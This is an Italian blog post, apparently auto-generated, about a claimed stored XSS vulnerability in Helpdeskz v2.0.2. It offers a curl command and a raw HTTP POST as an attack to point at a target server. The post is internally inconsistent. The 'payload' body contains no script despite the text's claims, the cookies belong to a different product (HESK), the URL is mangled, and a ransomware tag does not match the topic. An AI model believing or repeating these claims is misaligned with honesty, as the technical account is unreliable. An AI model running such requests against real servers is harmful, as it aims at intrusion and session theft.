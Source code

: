 ```yaml
---
layout: post
title: '[webapps] Helpdeskz v2.0.2 - Stored XSS' 
date: 2024-08-23
categories: [security, ransomware]
---
```


# Titolo dell'articolo

[webapps] Helpdeskz v2.0.2 - Stored XSS Vulnerabilità

## Introduzione

In questo articolo, discuteremo di una vulnerabilità di sicurezza identificata nel software Helpdeskz v2.0.2, specificamente, una vulnerabilità di Stored XSS (Cross-Site Scripting). Questa vulnerabilità può permettere ad un attaccante di inserire script maligni che sono eseguiti nel browser dell'utente.

## Dettagli della vulnerabilità 

La vulnerabilità Stored XSS in questione riguarda il software Helpdeskz v2.0.2. Questa vulnerabilità permette a un attaccante di iniettare codice JavaScript malevolo che può essere eseguito nel browser dell'utente quando si visita una pagina web compromessa. Questo può portare a una serie di conseguenze pericolose, inclusa la possibilità di rubare informazioni sensibili.

## Esempio di Payload Semplice

L'esempio di payload semplice fornito è il seguente: 

```bash
curl -i -s -k -X 'POST' \
    -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Referer: http://localhost/staff/index.php?/Tickets/Submit/Confirmation/1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost' \
    -b 'HESK_myemail=e%40mail.com; PHPSESSID=6dcd9fabe8d1f52e4933a815db1624a7; HESK_CSRF=1600297601' \
    --data-binary $'trackingID=210808-000001&x=78&y=16' \
    'http://localhost/staff/index.php?/Tickets/'%20-http://localhost/staff/index.php?/Tickets/Submit/Confirmation/1
```

## Esempio di Payload Avanzato

Non è disponibile un esempio di payload avanzato per questa vulnerabilità.

## Spiegazione Tecnica dello Script o Comando

Il comando `curl` sopra menzionato sta effettuando una richiesta POST a un server web ospitante Helpdeskz v2.0.2. Il comando invia specifici headers HTTP e un corpo di richiesta (`--data-binary`) che contiene il payload dell'XSS. 

## Procedura per riprodurre la vulnerabilità 

Per riprodurre la vulnerabilità, è sufficiente eseguire il comando curl fornito nel terminale, assicurandosi di sostituire `localhost` con l'indirizzo IP o il nome del server web target.

## Richiesta HTTP 

La richiesta HTTP inviata con il comando curl è così formattata:

```http
POST /staff/index.php?/Tickets/ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://localhost/staff/index.php?/Tickets/Submit/Confirmation/1
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Cookie: HESK_myemail=e%40mail.com; PHPSESSID=6dcd9fabe8d1f52e4933a815db1624a7; HESK_CSRF=1600297601
Content-Length: 30
trackingID=210808-000001&x=78&y=16
```

## Impatto della vulnerabilità 

L'impatto di questa vulnerabilità è significativo. Un attaccante può utilizzarlo per eseguire script maliziosi nel browser dell'utente, rubare dati sensibili, come le credenziali di login, o persino prendere il controllo della sessione dell'utente.

## Patch e Mitigazioni

Al momento della pubblicazione della vulnerabilità, non è stato rilasciato alcun aggiornamento di sicurezza ufficiale. Gli utenti dovrebbero considerare l'implementazione di controlli di sicurezza aggiuntivi, come l'escapement dell'output e l'implementazione di Content Security Policy (CSP), per mitigare il rischio.

## Conclusione 

La vulnerabilità Stored XSS nel software Helpdeskz v2.0.2 è un problema grave che può portare al furto di dati sensibili. È importante per gli amministratori di sistema essere consapevoli di questa vulnerabilità e prendere misure per mitigarne l'impatto.

## Considerazioni 

Mentre la Stored XSS è una vulnerabilità ben conosciuta, il suo impatto può variare notevolmente a seconda del contesto. In questo caso, l'attaccante ha la possibilità di rubare le credenziali di login degli utenti o prendere il controllo delle loro sessioni. Questo è un esempio del fatto che le vulnerabilità di vecchia data come XSS possono ancora essere molto pericolose se non adeguatamente mitigated.

